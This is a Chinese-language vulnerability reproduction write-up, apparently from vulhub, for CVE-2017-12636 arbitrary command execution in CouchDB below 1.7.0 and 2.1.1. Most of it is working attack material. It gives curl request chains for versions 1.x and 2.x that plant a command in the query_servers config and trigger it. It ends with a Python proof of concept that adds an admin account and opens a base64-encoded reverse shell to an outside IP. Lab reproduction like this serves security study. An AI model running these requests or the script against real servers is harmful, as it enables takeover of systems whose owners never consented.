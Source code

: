 # CVE-2017-12636 Couchdb 任意命令执行漏洞

## 一、漏洞简介

在2017年11月15日，CVE-2017-12635和CVE-2017-12636披露，CVE-2017-12636是一个任意命令执行漏洞，我们可以通过config api修改couchdb的配置query_server，这个配置项在设计、执行view的时候将被运行。

## 二、漏洞影响

小于 1.7.0 以及 小于 2.1.1

## 三、复现过程

**环境搭建**

Couchdb 2.x和和1.x的API接口有一定区别，所以这个漏洞的利用方式也不同。本环境启动的是1.6.0版本，如果你想测试2.1.0版本，可以启动CVE-2017-12635附带的环境。

执行如下命令启动Couchdb 1.6.0环境：


```
docker-compose up -d
```

启动完成后，访问`http://url:5984/`即可看到Couchdb的欢迎页面。

**漏洞复现**

该漏洞是需要登录用户方可触发，如果不知道目标管理员密码，可以利用CVE-2017-12635先增加一个管理员用户。

**1.6.0 下的说明**

依次执行如下请求即可触发任意命令执行：


```bash
curl -X PUT 'http://vulhub:vulhub@www.hacked.com.cn:5984/_config/query_servers/cmd' -d '"id >/tmp/success"'
curl -X PUT 'http://vulhub:vulhub@www.hacked.com.cn:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@www.hacked.com.cn:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
curl -X POST 'http://vulhub:vulhub@www.hacked.com.cn:5984/vultest/_temp_view?limit=10' -d '{"language":"cmd","map":""}' -H 'Content-Type:application/json'
```

其中,vulhub:vulhub为管理员账号密码。

第一个请求是添加一个名字为cmd的query_servers，其值为`"id >/tmp/success"`，这就是我们后面待执行的命令。

第二、三个请求是添加一个Database和Document，这里添加了后面才能查询。

第四个请求就是在这个Database里进行查询，因为我将language设置为cmd，这里就会用到我第一步里添加的名为cmd的`query_servers`，最后触发命令执行。

**2.1.0 下的说明**

2.1.0中修改了我上面用到的两个API，这里需要详细说明一下。

Couchdb 2.x 引入了集群，所以修改配置的API需要增加node name。这个其实也简单，我们带上账号密码访问`/_membership`即可：


```bash
curl http://vulhub:vulhub@www.hacked.con.cn:5984/_membership
```

![](images/15889496402924.png)


可见，我们这里只有一个node，名字是`nonode@nohost`。

然后，我们修改`nonode@nohost`的配置：


```
curl -X PUT http://vulhub:vulhub@www.hacked.com.cn:5984/_node/nonode@nohost/_config/query_servers/cmd -d '"id >/tmp/success"'
```

![](images/15889496697463.png)


然后，与1.6.0的利用方式相同，我们先增加一个Database和一个Document：


```bash
curl -X PUT 'http://vulhub:vulhub@www.hacked.com.cn:5984/vultest'
curl -X PUT 'http://vulhub:vulhub@www.hacked.com.cn:5984/vultest/vul' -d '{"_id":"770895a97726d5ca6d70a22173005c7b"}'
```

Couchdb 2.x删除了`_temp_view`，所以我们为了触发`query_servers`中定义的命令，需要添加一个`_view`：


```bash
curl -X PUT http://vulhub:vulhub@www.hacked.com.cn:5984/vultest/_design/vul -d '{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}' -H "Content-Type: application/json"
```

增加_view的同时即触发了`query_servers`中的命令。

poc

修改其中的target和command为你的测试机器，然后修改version为对应的Couchdb版本（1或2），成功反弹shell：

![](images/15889497412762.png)



```python
#!/usr/bin/env python3
import requests
import json
import base64
from requests.auth import HTTPBasicAuth

target = 'http://your-ip:5984'
command = rb"""sh -i >& /dev/tcp/10.0.0.1/443 0>&1"""
version = 1

session = requests.session()
session.headers = {
    'Content-Type': 'application/json'
}
# session.proxies = {
#     'http': 'http://127.0.0.1:8085'
# }
session.put(target + '/_users/org.couchdb.user:wooyun', data='''{
  "type": "user",
  "name": "wooyun",
  "roles": ["_admin"],
  "roles": [],
  "password": "wooyun"
}''')

session.auth = HTTPBasicAuth('wooyun', 'wooyun')

command = "bash -c '{echo,%s}|{base64,-d}|{bash,-i}'" % base64.b64encode(command).decode()
if version == 1:
    session.put(target + ('/_config/query_servers/cmd'), data=json.dumps(command))
else:
    host = session.get(target + '/_membership').json()['all_nodes'][0]
    session.put(target + '/_node/{}/_config/query_servers/cmd'.format(host), data=json.dumps(command))

session.put(target + '/wooyun')
session.put(target + '/wooyun/test', data='{"_id": "wooyuntest"}')

if version == 1:
    session.post(target + '/wooyun/_temp_view?limit=10', data='{"language":"cmd","map":""}')
else:
    session.put(target + '/wooyun/_design/test', data='{"_id":"_design/test","views":{"wooyun":{"map":""} },"language":"cmd"}')
```

参考链接

https://vulhub.org/#/environments/couchdb/CVE-2017-12636/

